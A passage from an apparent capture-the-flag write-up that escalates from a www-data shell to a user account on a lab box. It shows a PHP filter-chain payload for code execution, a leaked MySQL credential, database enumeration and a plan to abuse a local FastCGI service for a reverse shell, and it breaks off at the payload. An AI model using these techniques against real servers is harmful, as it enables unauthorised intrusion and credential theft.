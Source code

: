 ~~~
F7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
~~~

We have a working shell and can operate www-data. Upgrade the shell to a fully interactive one and let's get user from here.

**www-data to victor - mysql, fastcgi**

Got www data
![[got shell ww data.png]]

We enumerate a bunch of config files and get the credentials for the MySQL service on port 3306.

![[sql credentials 1.png]]

Got credentials..!!

~~~
webapp_user : Str0ngP4ssw0rdB*12@1
~~~

Enumerate MySql:

~~~
mysql -u webapp_user -p
~~~

Go ahead and dump the tables, maybe we can extract something valuable.

There are couple of databases: 
• developers
• forum 
• webapp 
• pollution_api

![[admin code sql.png]]

There is a service listening on locahost port 9000 and after some time spend on Google, we realize it is the fastcgi service. 
See here: https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi 

1. We can read the user.txt flag by tweaking the script a bit.
2. We can pop another reverse shell, by issuing:

payload :
